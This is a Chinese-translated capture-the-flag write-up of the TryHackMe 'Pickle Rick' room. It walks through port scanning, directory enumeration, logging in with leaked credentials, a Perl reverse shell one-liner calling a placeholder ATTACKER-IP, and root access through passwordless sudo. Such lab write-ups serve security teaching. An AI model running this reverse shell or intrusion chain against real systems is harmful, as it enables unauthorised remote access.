# pickle Rick-TryHackMe 报道

> 原文：<https://infosecwriteups.com/picklerick-tryhackme-writeup-74c6fedae081?source=collection_archive---------1----------------------->

Pickle Rick 是一个以 Rick 和 Morty 为主题的 tryhackme 房间，在这里我们利用网络服务器找到 3 种配料或旗帜。


先说枚举。

# 端口扫描

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020–04–10 15:35 IST
Nmap scan report for 10.10.222.8
Host is up (0.22s latency).
Not shown: 998 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernelService detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.54 seconds
```

Nmap 给出了这个结果，并且只有 2 个端口是打开的。

让我们前进到运行在端口 80 上的网站。



该网页出现在端口 80 上。这里没有有用的数据。

但是如果我们检查页面源代码呢？



我们在 HTML 注释中得到一个用户名！！

```
Note to self, remember username!

Username: R1ckRul3s
```

但是我们必须在哪里使用它呢？

## 更多枚举！！！！！

我用 dirsearch 找到感兴趣的目录和文件。

```
[15:49:33] 301 -  311B  - /assets  ->  [http://10.10.222.8/assets/](http://10.10.222.8/assets/)
[15:49:40] 200 -    1KB - /index.html
[15:49:42] 200 -  882B  - /login.php
[15:49:47] 200 -   17B  - /robots.txt
```

Dirsearch 结果给了我几个目录，可能是有趣的。

/assets 有 GIF、CSS、JS 文件，这些文件正在网站上使用，没有什么有趣的东西。



我浏览了 robots.txt 文件，看看有没有什么有趣的东西。



它有这个奇怪的字符串*wubbalubadub*

接下来看到的是 dirsearch 找到的最有趣的页面，登录页面！



/login.php 提供了这个基本的登录页面！我们有一个在页面源代码中找到的用户名！*R1 ckrul3s*’。

密码可能是什么！！！也许是我们在 robots.txt 里找到的诡异字符串？

我试了用户名' *R1ckRul3s* ，密码'*wubbalubadubdub*。

**登录成功！！！**

我们被重定向到/portal.php，其中给出了一个命令面板。



正在尝试' *ls'* 列出目录中的所有文件，包括'*sup 3rs 3 cretpickl3ingred . txt '*

但是等等！！我们无法读取文件！如果我们输入“cat Sup3rS3cretPickl3Ingred.txt ”,则会出现一个错误



前往 [Pentest Monkey 的反向壳 Cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) 。

我试过 bash reverse shell payload，但是没用，接下来是 perl payload。

```
perl -e 'use Socket;$i="ATTACKER-IP";$p=LISTENING-PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

这个有效载荷起作用了！！！我们使用 perl 反向 shell 有效负载获得了 shell。



我们有了第一面旗帜，机器里还有 2 面旗帜。让我们读一下 clue.txt，看看有没有什么能让我们找到 2 号标志。

线索内容:txt :-

```
Look around the file system for the other ingredient.
```

我尝试在几个目录中查找标志，最终在用户“rick”的主目录中找到了第二个标志



嗨哟！第三面旗子还在机器里的某个地方！！

我试着 *sudo -l* 看看我们是否有任何 sudo 权限！



## 我们可以使用任何命令作为根没有密码！！！

我们得到了/根目录中的第三个标志！



使用不同的反向 shell 有效载荷可能实际上是有益的，也许我们可以访问！！

感谢您阅读这篇文章！希望你喜欢；-)

联系我:

[](https://twitter.com/RitikSahni22) [## 里提克·萨尼(http.deep)

### 里提克·萨尼的最新推文(http.deep) (@RitikSahni22)。网络安全爱好者！👨‍💻臭虫猎人🔎💡CTF…

twitter.com](https://twitter.com/RitikSahni22) 

电子邮件:ritiksahni0203@gmail.com

干杯！

里提克·萨尼

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)